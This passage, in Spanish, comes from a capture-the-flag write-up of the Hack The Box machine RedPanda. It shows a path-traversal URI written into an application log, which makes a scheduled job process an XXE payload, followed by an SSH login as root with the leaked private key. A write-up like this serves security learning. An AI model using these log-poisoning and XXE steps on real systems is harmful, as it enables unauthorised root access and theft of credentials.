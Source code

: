 * Ahora debemos modificar el objeto `.log` para indicarle mediante un **LFI** que llegue a nuestra imagen:

  Tenemos que salirnos de la ruta `/opt/panda_search/src/main/resources/static`, si imaginamos estar en una terminal:

  ```bash
  # 1        2       3   4       5       6   | 1  2  3  4  5  6  por-si-algo-agregamos-más
  cd /opt/panda_search/src/main/resources/static/../../../../../../../
  # Ya estariamos en la raíz, solo queda entrar en la nueva ruta:
  cd /opt/panda_search/src/main/resources/static/../../../../../../../tmp/test/
  ```

  Así que nuestra 'uri' seria:

  ```bash
  /../../../../../../../tmp/test/angy.jpg
  ```

  Para modificarlo fácilmente hacemos:

  ```bash
  echo "200||10.10.14.146||holaholaholaaaa||/../../../../../../../tmp/test/angy.jpg" >> /opt/panda_search/redpanda.log
  ```

Yyyyyyy pasados los 2 minutos ejecutaría el programa, tomaría la URI, se iría a nuestra imagen, sacaría el artista y eso lo redireccionaría al objeto `XML` que creamos, si fue procesado debería haberse ejecutado la entidad y como resultadoooooooo tener la llave privada del usuario `root` (si es que existe):

YYYYYYYYYYYYYYYYYYYYYYYYYYYY:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481bash_woodenkRevSH_XXE_idRsaRoot.png" style="width: 100%;"/>

UJUUUUUUPAA! El **XXE** se ha efectuado y obtuvimos la llave privada de **root**!

Guardémosla en un archivo de nuestro sistema, démosle los permisos necesarios e iniciemos sesión como él:

```bash
❱ cat root.id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

```bash
chmod 600 root.id_rsa
ssh root@10.10.11.170 -i root.id_rsa
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481bash_rootSH.png" style="width: 100%;"/>

Y listos, a leer las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481flags.png" style="width: 100%;"/>

...
